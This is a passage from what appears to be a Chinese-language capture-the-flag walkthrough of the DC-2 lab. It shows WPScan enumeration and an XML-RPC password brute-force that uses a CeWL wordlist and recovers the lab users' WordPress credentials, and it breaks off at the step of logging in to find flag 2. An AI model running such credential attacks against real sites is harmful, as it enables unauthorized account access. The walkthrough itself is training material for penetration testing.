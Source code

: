      | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.2 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <====================================================> (137 / 137) 100.00% Time: 00:00:00
    
    [i] No Config Backups Found.
    
    [+] Performing password attack on Xmlrpc against 3 user/s
    Trying root / CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/) Time: 00:00:00 <> (0 / 717)  0.00%  ETA: Trying jerry / CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/) Time: 00:00:00 <> (3 / 717)  0.41%  ETA:[SUCCESS] - jerry / adipiscing                                                                                                     
    [SUCCESS] - tom / parturient                                                                                                       
    Trying root / flag Time: 00:01:04 <==================================                          > (649 / 1127) 57.58%  ETA: ??:??:??
    
    [!] Valid Combinations Found:
     | Username: jerry, Password: adipiscing
     | Username: tom, Password: parturient
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    ```
    
    得到 `tom` `jerry` 的密码
    
    ```sql
    | Username: jerry, Password: adipiscing
    | Username: tom, Password: parturient
    ```
    
3. 登陆后台
    - 先登录`jerry`的后台
        
        在主页 `Pages` 里面可以找到 `flag2`
        
        ```sql
        Flag 2:
        